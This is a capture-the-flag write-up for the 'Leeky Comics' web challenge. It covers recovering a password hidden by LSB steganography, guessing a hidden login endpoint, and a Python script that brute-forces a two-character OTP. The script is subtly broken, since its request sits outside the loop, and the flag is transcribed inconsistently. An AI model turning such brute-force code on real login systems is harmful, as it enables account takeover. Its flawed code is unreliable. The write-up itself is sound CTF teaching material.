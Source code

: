 # Leeky Comics
> Check out Dr Leek's new comic store! 👨‍⚕️

## About the Challenge
We were given a website that will generate some images and then we can sign our input to the image


[Image extracted text: [Image processing failed]]


## How to Solve?
If we check the source code by pressing `Ctrl + U` there are 2 comments:

```html
<!-- If you forget the password remember that our admin hid it somewhere in the image with some random python lib -->
```

and

```html
<!-- TODO: Hide the endpoint for the artists -->
```

It looks like this some steganography challs. So I decided to download the generated image and upload it into this [website](https://stegonline.georgeom.net/upload) and then choose `Extract Data` option

The flag is hidden using the LSB steganography technique. Choose row `0` and press `Go` button


[Image extracted text: Extract Data
Here you can extract data hidden inside of the image. Select some bits and adjust the
settings appropriately. The final extracted data is checked against some basic file
headers_
and so the filetype can be automatically determined 
Please note that Alpha options are only available if the image contains transparency:
5
4
3
2
Pixel Order
Bit Order
Bit Plane Order
Trim Trailing Bits
Row
MSB
No
Go
Results
No file types identified
The results below only show the first 2500 bytes. Select "Download" to obtain the
full data.
Ascii (readable only):
32 : passw
ord:Mich
3l@ngelo
sistln3!
511?_
Hex (Accurate):
33323a70617373776f72643a4d696368336c406e67656c3024697374316e33213531
313ffffffffffffffffffffffffffffffff
fffffffffe38fffffffffffffffffff
ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
Download Extracted Data]


As you can see, we got 2 digit numbers and also the password

```
32:password:Mich3l@ngel0$ist1n3!511?
```

If we go to check the second HTML comment, it appears that there's another endpoint. I obtained it by guessing, and the endpoint is `/artist`.


[Image extracted text: Artist Login
Username:
Password:
OTP (enter your 2 digit pin):
Login]


We need to input the username (You can get it from the hints), password, and the OTP code. At first I tried to input this:

```
Username: Picasso
Password: Mich3l@ngel0$ist1n3!511
OTP Code: 32
```

But the output was `Incorrect Login`. In this case, I tried to create another python script to bruteforce the OTP code. Here is the code I used to brute the OTP code

```python
import requests

url = "https://leekycomics.ctf.intigriti.io/artist_login"

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

username = "Picasso"
password = "Mich3l@ngel0$ist1n3!511"

for char1 in characters:
    for char2 in characters:
        otp = char1 + char2
        data = {
            "username": username,
            "password": password,
            "otp": otp
        }

    response = requests.post(url, data=data, headers={'Content-Type': 'application/x-www-form-urlencoded'})

    if response.status_code == 200:
        # Print the cookies from the response
        print(f"OTP: {otp}, Cookies: {response.text}")
    else:
        print(f"OTP: {otp}, Response Status Code: {response.text}")
```

And then run the code and voilà (In this case im using grep to get the flag)


[Image extracted text: OTP:
01,
Cookies:
Good
job
here
is
your
FLG INTIGRITI{Sup3r_53cr37_f146_dr_133k_reck5}
flag]


```
INTIGRITI{5up3r_53cr37_fl46_dr_l33k_r0ck5}
```